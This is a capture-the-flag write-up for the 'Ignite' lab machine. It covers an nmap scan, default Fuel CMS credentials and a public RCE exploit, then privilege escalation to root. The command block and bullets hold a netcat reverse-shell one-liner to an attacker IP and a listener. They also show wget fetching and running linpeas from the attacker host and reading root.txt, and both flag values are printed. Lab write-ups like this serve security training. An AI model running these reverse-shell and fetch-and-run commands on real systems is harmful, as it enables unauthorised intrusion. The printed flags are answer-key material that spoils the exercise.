 # Ignite - Easy

```shell
nmap -T4 -p- -A -v 10.10.79.85

#using RCE exploit from Exploit-DB
#setup listener
nc -nvlp 4444
#we get reverse shell

python -c 'import pty;pty.spawn("/bin/bash")'

ls /home

ls -la /home/www-data
#get user flag

cd /tmp

#get linpeas from attacker machine server
wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

#use cleartext password found
su root
#it works

cat /root/root.txt
```

* Open ports & services:

  * 80 - http - Apache httpd 2.4.18 (Ubuntu)

* We have the webpage for Fuel CMS (v1.4) - it is unchanged since its setup.

* Scrolling down, we can see that we have creds admin:admin for /fuel

* Logging into /fuel, we are faced with a dashboard for Fuel CMS.

* We can search for Fuel CMS 1.4 exploits - we get RCE exploits.

* Using an RCE exploit from Exploit-DB, we can get reverse shell with the help of this one-liner:

    ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.31.212 4444 >/tmp/f```

* We can use linpeas to check for privesc.

* We get a password left in cleartext in a config file - mememe.

* When we try this password for root, we get root shell.

```markdown
1. user.txt - 6470e394cbf6dab6a91682cc8585059b

2. root.txt - b9bbcb33e11b80be759c4e844862482d
```
